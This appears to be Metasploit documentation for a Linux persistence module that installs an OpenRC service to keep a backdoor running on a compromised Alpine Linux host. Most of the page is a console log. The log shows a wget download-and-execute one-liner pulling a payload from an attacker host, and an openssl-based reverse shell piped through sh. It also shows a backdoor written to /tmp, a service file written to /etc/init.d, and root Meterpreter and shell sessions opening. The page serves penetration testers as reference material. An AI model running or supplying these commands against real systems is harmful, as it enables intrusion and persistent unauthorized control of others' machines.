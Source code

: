 ## Vulnerable Application

This module will create a service on the box via OpenRC, and mark it for auto-restart.
We need enough access to write service files and potentially restart services.

Verified against alpine 3.21.2

## Verification Steps

1. Exploit a box and get a **root** session
2. `use exploit/linux/persistence/init_openrc `
3. `set SESSION <session>`
4. `set PAYLOAD <payload>`
5. `set LHOST <lhost>`
6. `exploit`

## Options

### WritableDir
Remote writable directory to store the payload. Avoid using `/tmp` as it will be deleted upon reboot.

### SERVICE

The name of the service to create.  If not chosen, a random one is created.

### PAYLOAD_NAME

The name of the file to write with our shell if a non-cmd payload is used.  If not chosen, a random one is created.

## Scenarios

### Alpine Linux 3.21.2

Of note, the default install of Alpine doesn't have `curl`, or `bash`. The `OpenSSL` payload was confirmed working though

Initial access vector via web delivery

```
[*] Processing /root/.msf4/msfconsole.rc for ERB directives.
resource (/root/.msf4/msfconsole.rc)> setg verbose true
verbose => true
resource (/root/.msf4/msfconsole.rc)> setg lhost 111.111.1.111
lhost => 111.111.1.111
resource (/root/.msf4/msfconsole.rc)> use exploit/multi/script/web_delivery
[*] Using configured payload python/meterpreter/reverse_tcp
resource (/root/.msf4/msfconsole.rc)> set srvport 8181
srvport => 8181
resource (/root/.msf4/msfconsole.rc)> set target 7
target => 7
resource (/root/.msf4/msfconsole.rc)> set payload payload/linux/x64/meterpreter/reverse_tcp
payload => linux/x64/meterpreter/reverse_tcp
resource (/root/.msf4/msfconsole.rc)> set lport 4545
lport => 4545
resource (/root/.msf4/msfconsole.rc)> set URIPATH l
URIPATH => l
resource (/root/.msf4/msfconsole.rc)> run
[*] Exploit running as background job 0.
[*] Exploit completed, but no session was created.
[*] Starting persistent handler(s)...
[*] Started reverse TCP handler on 111.111.1.111:4545 
[*] Using URL: http://111.111.1.111:8181/l
[*] Server started.
[*] Run the following command on the target machine:
wget -qO xK7yCqmS --no-check-certificate http://111.111.1.111:8181/l; chmod +x xK7yCqmS; ./xK7yCqmS& disown
[msf](Jobs:1 Agents:0) exploit(multi/script/web_delivery) > 
[*] Transmitting intermediate stager...(126 bytes)
[*] Sending stage (3045380 bytes) to 222.222.2.222
[*] Meterpreter session 1 opened (111.111.1.111:4545 -> 222.222.2.222:33954) at 2025-02-09 09:31:16 -0500
[msf](Jobs:1 Agents:1) exploit(multi/script/web_delivery) > sessions -i 1
[*] Starting interaction with 1...
(Meterpreter 1)(/root) > getuid
Server username: root
(Meterpreter 1)(/root) > sysinfo
Computer     : alpine3.21.2
OS           :  (Linux 6.12.12-0-virt)
Architecture : x64
BuildTuple   : x86_64-linux-musl
Meterpreter  : x64/linux
(Meterpreter 1)(/root) > background
[*] Backgrounding session 1...
```

Persistence

```
[msf](Jobs:1 Agents:1) exploit(multi/script/web_delivery) > use exploit/linux/persistence/init_openrc 
[*] No payload configured, defaulting to cmd/linux/http/x64/meterpreter/reverse_tcp
[msf](Jobs:1 Agents:1) exploit(linux/persistence/init_openrc) > set session 1
session => 1
[msf](Jobs:1 Agents:1) exploit(linux/persistence/init_openrc) > set payload payload/cmd/unix/reverse_openssl
payload => cmd/unix/reverse_openssl
[msf](Jobs:1 Agents:1) exploit(linux/persistence/init_openrc) > exploit
[+] sh -c '(sleep 4296|openssl s_client -quiet -connect 111.111.1.111:4444|while : ; do sh && break; done 2>&1|openssl s_client -quiet -connect 111.111.1.111:4444 >/dev/null 2>&1 &)'
[*] Exploit running as background job 1.
[*] Exploit completed, but no session was created.
[msf](Jobs:2 Agents:1) exploit(linux/persistence/init_openrc) > 
[*] Started reverse double SSL handler on 111.111.1.111:4444 
[*] Running automatic check ("set AutoCheck false" to disable)
[+] The target appears to be vulnerable. /tmp/ is writable and openrc based
[*] Writing backdoor to /tmp//rljkrbglMY
[*] Writing service: /etc/init.d/GpdAgZVBGWq
[*] Writing '/etc/init.d/GpdAgZVBGWq' (141 bytes) ...
[*] Enabling service
[+] Starting service
[*] Accepted the first client connection...
[*] Accepted the second client connection...
[*] Meterpreter-compatible Cleaup RC file: /root/.msf4/logs/persistence/alpine3.21.2_20250209.3159/alpine3.21.2_20250209.3159.rc
[*] Command: echo duVbKHsRwQ5D05J7;
[*] Writing to socket A
[*] Writing to socket B
[*] Reading from sockets...
[*] Reading from socket B
[*] B: "duVbKHsRwQ5D05J7\n"
[*] Matching...
[*] A is input...
[*] Command shell session 2 opened (111.111.1.111:4444 -> 222.222.2.222:43560) at 2025-02-09 09:32:07 -0500
```